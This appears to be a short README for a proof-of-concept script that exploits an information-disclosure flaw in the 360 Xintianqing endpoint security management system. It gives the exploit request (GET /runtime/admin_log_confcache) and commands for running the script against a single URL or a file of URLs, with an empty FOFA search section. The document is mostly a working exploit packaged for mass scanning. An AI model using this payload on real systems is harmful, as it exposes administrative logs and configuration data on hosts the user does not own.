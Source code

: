 fofa

```markdown

```

payload

```markdown
GET /runtime/admin_log_confcache
```

命令

```markdown
pytho3 360新天擎终端安全管理系统存在信息泄露漏洞.py -u url
pytho3 360新天擎终端安全管理系统存在信息泄露漏洞.py -f url.txt
```

